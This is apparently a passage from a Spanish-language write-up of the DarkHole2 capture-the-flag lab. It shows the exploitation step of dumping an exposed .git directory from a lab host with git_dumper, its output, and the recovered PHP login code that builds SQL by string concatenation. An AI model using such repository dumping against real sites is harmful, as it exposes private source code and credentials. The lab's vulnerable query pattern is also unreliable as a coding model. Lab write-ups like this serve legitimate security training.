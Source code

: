 ![](/imagenes/DarkHole2/darkhole3.png)


## [](#header-2)Explotación

Vamos a traernos el proyecto a nuestro equipo utilizando `git_dumper`:

```
python3 git_dumper.py http://192.168.233.130/.git darkhole2
[-] Testing http://192.168.233.130/.git/HEAD [200]
[-] Testing http://192.168.233.130/.git/ [200]
[-] Fetching .git recursively
[-] Fetching http://192.168.233.130/.git/ [200]
[-] Fetching http://192.168.233.130/.gitignore [404]
[-] http://192.168.233.130/.gitignore responded with status code 404
[-] Fetching http://192.168.233.130/.git/hooks/ [200]
[-] Fetching http://192.168.233.130/.git/logs/ [200]
[-] Fetching http://192.168.233.130/.git/HEAD [200]
```
Cuando termine, entramos a la carpeta que ha creado:

```
ls
config  dashboard.php  index.php  js  login.php  logout.php  style
```
Observamos todos los archivos del proyecto, si los revisamos encontraremos el panel de login:
```php
session_start();
require 'config/config.php';
if($_SERVER['REQUEST_METHOD'] == 'POST'){
    $email = mysqli_real_escape_string($connect,htmlspecialchars($_POST['email']));
    $pass = mysqli_real_escape_string($connect,htmlspecialchars($_POST['password']));
    $check = $connect->query("select * from users where email='$email' and password='$pass' and id=1");
    if($check->num_rows){
        $_SESSION['userid'] = 1;
        header("location:dashboard.php");
        die();
    }
```